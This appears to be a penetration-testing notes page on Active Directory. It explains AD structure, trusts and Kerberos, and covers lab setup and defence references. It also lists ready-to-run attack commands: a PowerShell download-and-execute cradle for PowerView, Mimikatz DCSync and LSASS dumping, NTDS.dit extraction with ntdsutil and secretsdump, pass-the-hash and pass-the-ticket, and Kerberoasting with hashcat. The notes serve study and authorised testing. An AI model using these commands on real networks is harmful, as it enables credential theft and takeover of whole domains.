

Active Directory¶
Introduction¶
Active Directory enables centralized, secure management of an entire network, which might span a building, a city, or multiple locations throughout the world.

These antiquated AD designs only focused on the: - Directory information tree - Delegation model - Group Policy Objects (GPOs) structure and accounts management
Securing privileged access - Active Directory administrative tier model: https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/securing-privileged-access-reference-material
Components¶

| Component | Description |
|---|---|
| Organizational Units |
|
| Domains |
|
| Domain Trees |
|
| Forests |
|
| Site Objects |
|
- Schema - Defines objects and attributes
- Query and index mechanism - Ability to search and publish objects and properties
- Global Catalog - Contains info about every object in directory
- Replication Service - Distributes information across domain controller
- Kerberos v5 used from Windows Server 2000+
- Naming conventions
- User Principal name: winsaafman@scriptdotsh.local
- DN (Distinguished Names) LDAP names: CN=winsaafman,DC=corp,DC=scriptdotsh,DC=local
- CN = Common name
- OU = Organisational Unit
- DC = Domain
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1’);Get-NetDomain”
AD Trust Types¶
Ref: https://scriptdotsh.com/wp-content/uploads/2018/10/trust2.png

| Trust Type | Property | Trust Direction | Auth. | Details |
|---|---|---|---|---|
| Tree-Root | Transitive | Two-way | Kerberos V5 or NTLM | Created automatically when a new Tree is added to a forest. |
| Parent-Child | Transitive | Two-way | Kerberos V5 or NTLM | Created automatically when a child domain is added. |
| Shortcut | Transitive | One-way or Two-way | Kerberos V5 or NTLM | Created Manually. Used in a forest to shorten the trust path to improve authentication times. |
| Forest | Transitive | One-way or Two-way | Kerberos V5 or NTLM | Created Manually. Used to share resources between AD DS forests. |
Kerberos Process Across Trust Boundaries¶
Ref: https://scriptdotsh.com/wp-content/uploads/2018/10/trust2.png

A client from Domain 1 wants to access the server located in Domain 2.
- A client from Domain1 requests a TGT from the DC1.
- DC1 responds back with the TGT (encrypted with krbtgt hash)
- Client shows the TGT and requests a TGS for accessing the server in Domain2.
- As DC1 doesn’t find the server in current domain and realizes that the TGS needs to be issued by the DC2 (of Domain2) because the server is located in the Domain2. So it responds back to client with the Inter-realm TGT.
- Client shows the TGT encrypted with Inter-Realm trust key to DC2 in the Domain2 and requests TGS to access the server.
- DC2 sends back the TGS for Server encrypted with server’s account hash.
- Client presents the TGS (encrypted with server’s account hash) to the server for access.
Scope of Authentication
- Forest-wide authentication - Users from the outside forest have the same level of access to resources in the local forest as users who belong to the local forest.
- Selective authentication - You need to manually assign permissions on each computer in the domain as well as the resources to which you want users in the second forest to have access (by editing ACE (Access control entry)).
Setup¶
Install-windowsfeature AD-domain-services Install-WindowsFeature RSAT-ADDS Import-Module ADDSDeployment Install-ADDSForest -CreateDnsDelegation:$false ` -DatabasePath "C:\Windows\NTDS" ` -DomainMode "Win2012R2" ` -DomainName "server1.hacklab.local" ` -DomainNetbiosName "server1" ` -ForestMode "Win2012R2" ` -InstallDns:$true ` -LogPath "C:\Windows\NTDS" ` -NoRebootOnCompletion:$false ` -SysvolPath "C:\Windows\SYSVOL" ` -Force:$true
- Download VMs: https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
- SysPrep When and How: https://thesolving.com/server-room/when-and-how-to-use-sysprep/
- Add user
net user user1 Passw0rd! /ADD /DOMAINNew-ADUser -Name "Winsaaf Man" -DisplayName "Winsaaf Man" -SamAccountName “winsaaf.man” -UserPrincipalName “winsaaf.man@scriptdotsh.local” -GivenName “winsaaf” -Surname "man" -AccountPassword (Read-host -AsSecureString “Enter Password”) -Enabled $true -server scriptdotsh.local- More options:
-ChangePasswordAtLogon $false-PasswordNeverExpires $true
- More options:
- Bulk addition: https://gallery.technet.microsoft.com/office/Create-Contoso-Users-in-3e2f38f2/view/Discussions
- View users:
net users /domain - View group:
net group /domain "Domain Admins"
Detect Firewall Blocking AD¶
PortQryUI - http://www.microsoft.com/download/en/details.aspx?id=24009 * Run the “Domains & Trusts” option between DCs, or between DCs and any machine * “NOTLISTENING,” 0x00000001, and 0x00000002, that means there is a port block * Can ignore UDP 389 and UDP 88 messages * TCP 42 errors, that just means WINS is not running on the target server
Implementing Least Privilege Model¶
Attack Types¶
- Windows systems vulnerabilities.
- AD misconfigurations.
Scanning¶
pingcastle.exe --healthcheck --server <DOMAIN_CONTROLLER_IP> --user <USERNAME> --password <PASSWORD> --advanced-live --nullsession
- Automating AD Enumeration (Bloodhound, PowerUp, Responder, CrackMapExec): https://medium.com/bugbountywriteup/automating-ad-enumeration-with-frameworks-f8c7449563be
Tools¶
Mimikatz¶
utilises the Directory Replication Service (DRS) to retrieve the password hashes from the NTDS.DIT file
lsadump::dcsync /domain:pentestlab.local /all /csv lsadump::dcsync /domain:pentestlab.local /user:test
executing Mimikatz directly in the domain controller password hashes can be dumped via the lsass.exe process
privilege::debug lsadump::lsa /inject
CrackMapExec¶
Automate assessing the security of large Active Directory networks
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH crackmapexec smb <target(s)> -u username -H NTHASH
ldapsearch¶
- Query the Domain Controller for Active Directory
- UserAccountControl attributes of active accounts
- Other specific configurations
- Possible UserAccountControl values: https://support.microsoft.com/en-gb/help/305144/how-to-use-the-useraccountcontrol-flags-to-manipulate-user-account-pro
Active users (2 == disabled account status)
ldapsearch -x -h $ip -p 389 -D 'SVC_TGS' -w $password -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname
Impacket’s GetADUsers.py¶
- Enumerate domain user accounts
GetADUsers.py -all active.htb/svc_tgs -dc-ip $ip
Enumeration¶
Using PowerShell and Built-ins¶
Works in Constrained Mode as well.
C:\Windows\Microsoft.NET\assembly\GAC_64\Microsoft.ActiveDirectory.Management\Microsoft.ActiveDirectory.Management.dll
Import-Module .\Microsoft.ActiveDirectory.Management.dll
- Domain:
Get-ADDomain - Forest:
Get-ADForest - Trust:
Get-ADTrust -Filter * - Users:
Get-ADUser -Filter * - Groups :
Get-ADGroup -Filter * - Filter Groups for User:
Get-ADGroup -Filter {Name -like "*admin*"} | select name, GroupScope
PowerView¶
./PowerView.ps1
- All domain computers:
Get-NetComputer - Domain Controller:
Get-NetDomainController - Groups:
Get-NetGroup - Sessions:
Get-NetSession - ACL for AD objects:
Get-ObjectAcl - Check if current user context has local-admin access to hosts in the domain:
Find-LocalAdminAccess -Verbose - Enumerate members of local-admin groups across all machines:
Invoke-EnumerateLocalAdmin -Verbose
Snapshot for Offline Analysis¶
Using https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer
Download: https://live.sysinternals.com/
UNC path: \\live.sysinternals.com\tools
Bloodhound¶
- Finds groups and group members of each group.
- Gets Domain computers in the domain.
- Obtain local admins for each computer.
- List Active sessions on each computer.
- And then creates relationships between all these findings.
SYSVOL¶
- Folder which resides on each and every domain controller within the domain.
- Contains the domains public files that need to be accessed by clients and kept synchronised between domain controllers.
- Default location is
C:\Windows\SYSVOL - The SYSVOL folder can be accessed through:
- share
\\domainname.com\sysvol - or the local share name on the server
\\servername\sysvol.
- share
- Uses DFS to share the relevant folders to users and clients. - Distributed File System. Client and server services that allow servers to organize distributed file shares into a distributed file system.
- File Replication Service - FRS is a multi-master, multi-threaded replication technology.
- Introduced in Windows 2000 to replace the previous LMREPL technology used in NT3.x and 4 days
- Ageing Cache - Detects the change by monitoring the NTFS USN journal (stored in NTFRS database) (every 3 seconds)
- Replaced by DFSR (Distributed File System Replication) in Windows 2008 or higher
- Auto-healing functions in place to remedy some of the issues that FRS
- Instead of replicating entire files we only replicate the chunks of data that have changed
- Based on MD4 hash of the file
The log contains information about the file and the time it was changed, this is then used to build its change message. To ensure the file and all it’s attributes (i.e. permissions) are kept intact FRS calls the backup APIwhich uses VSS technology to take a snapshot of the file and it’s attributes. This backup file is then compressed and stored in the staging area folder. At this point the outbound log is updated (again this is actually a table within the FRS database). This contains information about all the changes for a specified replication set. If in step 1 a file was deleted rather than created then we don’t create a staging file, but the outbound log reflects the deletion. FRS on DC1 then sends a change notification to its replication partner DC2. DC2 adds the information about the change into its inbound log and accepts the change then sends a change acknowledgment back to DC1. DC2 then copies the file from DC1 into its staging area. It then writes an entry to its outbound log to allow other partners to pickup the change. DC2 then calls the backup API to restore the file from the staging area into the SYSVOL folder. So there you have it, FRS replication. There is a very detailed and in-depth reference guide on TechNethere for further reference.
Collections¶
Attack Patterns¶
Dumping AD Credentials¶
secretsdump¶
Need domain admin credentials:
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
NTDS.dit¶
- AD data stored in:
%SYSTEMROOT%\NTDS\ntds.dit- Cannot be copied directly to another location
- Can be extracted using
- Domain Controller Replication Services
- Native Windows Binaries
- WMI
- Backups / External Storage for DC
- VMWare / HyperV for virtual DCs
- VMWare admin can call virtual DC within VMWare
- Clone a DC and copy the storage file
- No events triggered
- NTDSUtil
- DC Promo has to copy from another DC
- But if NTDSUtil was used to create an IMF (Install From Media), it makes a copy of NTDS.dit
- Can use NTDSUtil to create an IMF or look for IMF in network
- Extraction techniques and tools: https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/ - Dumping Domain Password Hashes
Steps:
- cmd.exe as Administrator
- ntdsutil
snapshot activate instance NTDS create mount <UUID>
- copy NTDS.dit (located in Windows\NTDS\NTDS.dit by default)
- ntdsutil
unmount <UUID> delete <UUID> quit quit
reg.exe save HKLM\SYSTEM <path_where_you_want_to_save_it>
secretsdump.py -system <path_to_system_hive> -ntds <path_to_ntds.dit> LOCAL
Dumping Credentials on DC¶
- Take memory dump of LSASS process using task manager and use Mimikatz offline
- Run Mimikatz on DC
- Invoke-Mimikatz on DC via PS remoting
Pass the Hash¶

- In typical scenario:
- User type the password
- LSASS hash the password (LM, NTLM) and send it to service for authentication
- In attack scenario:
- Attacker pass the hash (LM, NTML) itself to LSASS which is sent to service
- Preventions
- Disable NTML hashes
- "Protected Users" group
- Do not leave lot of NTLM authentication footprint in eventless
Over Pass the Hash / Pass the Key¶
 > Ref:
> Ref: {kind=link}
- If NTLM hash is available, encrypt timestamp with hash and sent it to KDC in AS-REQ to get a TGT
- Keys are in:
- Client LSASS memory
- Prevented by "Protected Users" group
- Active Directory
- NTDS.dit and SYSTEM hive
- Offline
- [Tool] NTDSXtract
python DSUser.py ntds.dit.export/datatable.4 ntds.dit.export/link_table.7 ./work -name Administrator --syshive SYSTEM --supplcreds --passwordhashes --lmoutfile ./lm --ntoutfile ./nt --pwdformat johnprivilege::debug sekurlsa::ekeys
- Online
privilege::debug lsadump::lsa /inject /name:Administrator
- Client LSASS memory
- Keys are in:
- DES
- RC4 - Non domain salted NTML hash
- AES128 AES256 keys (NT6+)
- Use PBKDF2
- Salted
- 4096 iterations
- Cracking is difficult
- Over pass the hash
privilege::debug sekurlsa::pth /user:Administrator /domain:<DomainName> /ntlm:<Hash>
- References
Pass the Ticket¶


- Inject the TGT in to the LSASS Kerberos Provider
- Do not ask the KDC for the TGT, instead ask the KDC to give us a TGS
- Can also inject TGS in to the LSASS Kerberos Provider
- Exporting from memory:
- API only allow exporting current user's tickets (your tickets)
- TGT: AllowTgtSessionKey reg-key must be set
- TGS: No restrictions
- http://msdn.microsoft.com/library/windows/desktop/aa378099.aspx
LsaCallAuthenticationPackage/KerbRetrieveEncodedTicketMessage LsaCallAuthenticationPackage/KerbSubmitTicketMessage
mimikatz > kerberos::list [/export] mimikatz > kerberos::ptt ticket
- For all users in LSASS memory:
privilege::debug sekurlsa::tickets export kerberos:ptt <ticket.kirbi>
DCSyc¶
- Used to sync AD to Azure
- Can be used to get credentials from AD
- If
reverse encryptionis enabled for an account, clear text password can be obtained.
- If
- Needs Administrator or Domain Controller rights
- By default, no logs since this is done through official RPC (remotely)
- Implemented by: Mimikatz (lsadump:dcsync), Impacket, DSInternals

- DCSync is easy to detected
NRPC (NetLogon)¶
- When you have domain admin account for one DC, can as another DC to send all NTLM hashed of computer accounts and domain controller accounts.
- Can be used to create silver tickets.
- If you have rights flip some bytes of the account, can make a normal user account a workstation account. Can be used to get user accounts using this.
References¶
- Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory: https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
- Escalating privileges with ACLs in Active Directory: https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/
- https://blog.stealthbits.com/discovering-service-accounts-without-using-privileges
- https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting
- https://blog.stealthbits.com/impersonating-service-accounts-with-silver-tickets
- https://blog.stealthbits.com/complete-domain-compromise-with-golden-tickets/
- https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a
- https://blog.stealthbits.com/performing-domain-reconnaissance-using-powershell
- https://blog.stealthbits.com/local-admin-mapping-bloodhound
- https://blog.stealthbits.com/extracting-password-hashes-from-the-ntds-dit-file/
- https://blog.stealthbits.com/passing-the-hash-with-mimikatz
- https://blog.stealthbits.com/what-is-dcsync-an-introduction/
- https://hausec.com/2019/03/05/penetration-testing-active-directory-part-i/
- https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/
- https://blog.ropnop.com/practical-usage-of-ntlm-hashes/
- https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/
- https://blog.ropnop.com/using-credentials-to-own-windows-boxes/
- https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/
- https://0xdarkvortex.dev/index.php/2019/01/01/active-directory-penetration-dojo-ad-environment-enumeration-1/
- https://0xdarkvortex.dev/index.php/2018/08/26/active-directory-penetration-dojo-setup-of-ad-penetration-labpart-2/
- https://0xdarkvortex.dev/index.php/2018/10/29/active-directory-penetration-dojo-creation-of-forest-trustpart-3/
- https://www.attackdebris.com/?p=470
- https://blog.didierstevens.com/2016/08/12/mimikatz-golden-ticket-dcsync/
- http://www.harmj0y.net/blog/penetesting/pass-the-hash-is-dead-long-live-pass-the-hash/
- http://passing-the-hash.blogspot.com/
http://blog.liatsisfotis.com/knock-and-pass-kerberos-exploitation.html https://room362.com/post/2017/reset-ad-user-password-with-linux/
https://posts.specterops.io/attacking-azure-azure-ad-and-introducing-powerzure-ca70b330511a
https://posts.specterops.io/attacking-azure-azure-ad-and-introducing-powerzure-ca70b330511a TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory: https://www.youtube.com/watch?v=JEIR5oGCwdg Azure AD Connect for Red Teamers: https://blog.xpnsec.com/azuread-connect-for-redteam/ https://github.com/hausec/PowerZure
- How Attackers Pull the Active Directory Database (NTDS.dit) from a Domain Controller: https://adsecurity.org/?p=451
- Attack Methods for Gaining Domain Admin Rights in Active Directory: https://adsecurity.org/?p=2362
- Mimikatz DCSync Usage, Exploitation, and Detection: https://adsecurity.org/?p=1729
- How Attackers Dump Active Directory Database Credentials: https://adsecurity.org/?p=2398
Defense¶
- Active Directory Core Security Principles & Best Practices: https://ernw.de/download/AD_Summit_2018/01_AD_Summit_CoreSecPrinciples_fk_hw_v.1.2_signed.pdf
- Active Directory Kill Chain Attack & Defense: https://github.com/infosecn1nja/AD-Attack-Defense
- Microsoft-Blue-Forest: https://github.com/rootsecdev/Microsoft-Blue-Forest
- Welcome to building your first domain controller!: https://github.com/rootsecdev/Microsoft-Blue-Forest/blob/master/FirstDomainControllerInstall.md
- Pwn and Defend - Active Directory Domain Enumeration: https://www.youtube.com/watch?v=YxeXfHkHAUI&feature=youtu.be
KB2871997¶
- https://technet.microsoft.com/library/security/2871997
- Microsoft has definitely raised the bar: accounts that are members of the localgroup “Administrators” are no longer able to execute code with WMI or PSEXEC, use schtasks or at, or even browse the open shares on the target machine. Oh, except (as pwnag3 reports and our experiences confirm) the RID 500 built-in Administrator account, even if it’s renamed.
Microsoft Windows AD Kerberos Tickets¶
Gather tickets
GetUserSPNs.py -request (HOST.DOMAIN)/(VALID SMB USER):(USER PASSWORD)
Crack
-a 0 - Straight cracking mode -m 13100 - Hashtype 13100 - which is Kerberos 5 TGS-REP etype 23 the kerberos.ticket file -w 3 - Suggested example "workload" setting for Hashcat .\hashcat64.exe -m 13100 -a 0 'C:\Users\weaknet\Desktop\Portfolio\VMWare Shared\kerberos.tick et' -w 3 'C:\Users\weaknet\Desktop\Portfolio\VMWare Shared\rockyou.txt' hashcat (v5.1.0) starting...
Dump¶
ldapdomaindump -u example\example 10.10.10.10